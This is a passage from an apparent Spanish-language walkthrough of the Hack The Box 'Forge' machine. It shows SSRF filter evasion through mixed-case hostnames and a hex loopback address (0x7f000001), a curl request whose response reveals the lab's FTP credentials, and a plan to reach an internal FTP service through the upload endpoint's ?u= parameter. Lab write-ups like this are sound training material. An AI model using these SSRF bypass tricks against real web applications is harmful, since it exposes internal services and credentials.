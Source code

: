 `http://AdMin.FoRGe.Htb/announcements`

Una vez ponemos la `url` vemos que funciona y si listamos el contenido encontramos credenciales

```bash
❯ curl -s -X GET "http://forge.htb/uploads/xgGBuVJb4d1Xibae1ngq"
<!DOCTYPE html>
<html>
<head>
    <title>Announcements</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <link rel="stylesheet" type="text/css" href="/static/css/announcements.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br>
    <ul>
        <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
        <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
        <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>
    </ul>
</body>
</html>
```

Tenemos estas credenciales `user:heightofsecurity123!`

Bueno también nos dicen sobre **FTP** pero como tal **Nmap** no lo reporto como abierto así que lo que podemos hacer es aprovecharnos del **SSRF** para ver si esta abierto de la siguiente forma `http://0x7f000001:21`

Pero bueno quiero suponer que solo esta abierto internamente es por eso que **Nmap** no lo reporto como abierto pero bueno

![](/assets/images/htb-writeup-forge/web16.png)

Si leemos esta linea ya es interesante nos están diciendo que para la ruta `/upload` podemos concatenar `?u=<url>` como nos decían que se estaba usando **ftp** esta abierto internamente y nos están compartiendo credenciales lo que podemos hacer es conectarnos atra vez del campo de la `url`
